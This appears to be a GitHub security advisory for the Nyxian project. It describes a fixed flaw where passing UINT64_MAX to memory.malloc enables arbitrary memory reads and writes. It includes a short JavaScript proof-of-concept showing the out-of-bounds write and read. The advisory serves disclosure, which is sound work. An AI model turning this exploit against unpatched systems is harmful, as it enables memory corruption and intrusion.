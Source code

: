 # VID 003: Malloc Null

### Description

A attacker might be able to pass a arbitary size value to `memory.malloc` which causes allocation failure such as passing `0xFFFFFFFFFFFFFFFF` which is UINT64_MAX to the safety array and then use other methodes such as `memory.mwrite_buf_str` and `mread_buf_str` to read and write to and from arbitary memory addresses.

The vulnerability was addressed with improved checks and improved memory handling.

Introduced in: [`fee2b87`](https://github.com/ProjectNyxian/Nyxian/commit/fee2b8778ccfe6babdff4540e8e4fc56d8b68d1b)

fixed in: [`078d86a`](https://github.com/ProjectNyxian/Nyxian/commit/078d86a1b08f5e2f052e09d1d8d8cd7d507694b0)

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// initial vulnerability
// "allocating" a memory block with the size of UINT64_MAX
const ptr = memory.malloc(0xFFFFFFFFFFFFFFFF);

// allocating real memory block
const real_ptr = memory.malloc(0x01);

// writing a string to illegal memory bounds
memory.mwrite_buf_str(ptr, real_ptr - 10, real_ptr - 9, "\0");

// reading the string from illegal memory bounds
const buf = memory.mread_buf_str(ptr, real_ptr - 10, real_ptr -9);

// free the real memory block
memory.free(real_ptr);
```
